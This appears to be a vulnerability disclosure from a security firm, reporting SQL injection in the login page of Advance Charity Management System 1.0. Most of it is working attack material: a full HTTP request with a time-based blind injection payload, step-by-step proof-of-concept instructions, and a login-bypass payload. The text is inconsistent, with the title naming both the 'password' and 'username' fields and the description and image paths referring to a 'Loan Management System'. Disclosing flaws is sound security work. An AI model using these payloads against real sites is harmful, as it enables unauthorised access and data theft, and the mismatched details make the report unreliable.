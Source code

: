 ## Advance Charity Management System - login.php 'password' SQL inject

#### Advance Charity Management System - login.php 'username' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/16607/advance%C2%A0charity-management-system.html

#### Software Link:https://www.sourcecodester.com/php/16607/advance%C2%A0charity-management-system.html

#### Version: Advance Charity Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Loan Management System does not filter the content correctly at the "login.php/username" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /login.php HTTP/1.1
POST /login.php HTTP/1.1
Host: 192.168.31.35:8091
Content-Length: 68
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.31.35:8091
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.31.35:8091/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=lkdn1jvj1em9c4j3olu9e2pdpo
Connection: close

username=admin'union select 1,sleep(10),3,4,5#&password=admin&login=
```

#### Proof of Concept

1、Grab the package at the login and find that the login program is in login php

2、Looking at the source code, it is found that the password field is directly brought into the SQL statement query without filtering

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/sourcecodesql.png)

3、Use payload "sleep (10)" for blind SQL injection.It is found that the time blind injection is successful

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/sleep10.png)

4、We can also use the universal account and password to log in to the system

payload:`username=123'or '1'='1' --+&password=admin&login=`

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/universalaccount.png)

SQL injection also exists in the "password" field, so I won't describe it in detail here.
